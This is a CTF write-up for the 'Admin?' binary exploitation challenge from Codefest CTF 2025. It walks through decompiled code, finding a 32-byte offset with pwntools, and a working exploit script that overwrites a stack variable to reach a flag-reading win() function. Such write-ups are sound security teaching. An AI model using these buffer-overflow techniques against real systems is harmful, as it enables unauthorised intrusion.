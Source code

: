 ```yaml
--- 
title: Binary Exploitation -  Admin?
date: 2025-01-027 
categories: [CTF, Writeups] 
tags: [ctf, buffer_overflow , pwn ] 
author: 0xhyder
description: A walkthrough of the pwn challenge from the IIT BHU - Codefest CTF 2025
---
```


### Description

### 100

challenge by : 0xkn1gh7

Can you become admin?

### Solution

we got a ELF executable file,

![[/assets/images/image1.png]]

checksec,

![[/assets/images/image3.png]]

From the initial inspection of the ELF executable file,

1. The file is a 32-bit, little-endian executable.
2. The file is not stripped, allowing for easier debugging.
3. No stack canary is present, suggesting a vulnerability to buffer overflow attacks.

From the Decompiled Code ,
```c

int32_t win()
{
    void var_74;
    fgets(&var_74, 0x64, fopen("/flag.txt", u"r…"));
    return puts(&var_74);
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    void* const __return_addr_1 = __return_addr;
    int32_t* var_10 = &argc;
    setbuf(*stdout, nullptr);
    banner();
    int32_t var_14 = 1;
    void buf;
    fgets(&buf, 0x32, *stdin);
    
    if (var_14 != 0x23456723)
        printf("%x\\n", var_14);
    else
        win();
    
    return 0;
}

int32_t _fini()
{
    return;
}
```

At first, the idea was to overwrite the `EIP` register to directly call the `win()` function. Using `cyclic()` to find the offset for `EIP`:

```python
from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'

```

![[/assets/images/image2.png]]

However, after testing, it was observed that the EIP register was not overwritten. Upon further inspection of the assembly code:
![[/assets/images/image4.png]]

From the disassembly, it was noticed that the variable `var_14` is stored at `ebp - 0xc`. The value of `var_14` is compared with `0x23456723` at `main+89`. Using a debugger to set the break point at the address 0x56556315 to inspect the value:

```python
pwndbg> print/x *(int*)($ebp - 0xc)
$1 = 0x61616169
pwndbg> print/x ($ebp - 0xc)
```

This reveals the offset where `var_14` is located. Using `cyclic_find()`

```python
>>> cyclic_find(0x61616169)
32
```

The offset is confirmed to be 32 bytes.

Since the offset is revealed , By crafting a payload to overwrite the value at offset 32 with `0x23456723`, the condition to call the `win()` function is satisfied, and the flag can be retrieved.

### Exploit

using python with pwn for script,

```python
from pwn import *
context.log_level = 'critical'
elf = context.binary = ELF('chall')

gdbscript = '''
break *main
continue
'''

if args.REMOTE:
    p = remote('codefest-ctf.iitbhu.tech', 16391)
elif args.GDB:
     p = gdb.debug(elf.path, gdbscript=gdbscript)
else:
    p = process(elf.path)  

log.info("\\\\n==== start exploit ====\\\\n")
p.recvuntil(b'Admin?')
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaa\\x23\\x67\\x45\\x23'
p.sendline(payload)
print(p.recv())
p.interactive()
```

got the flag,
![[/assets/images/image5.png]]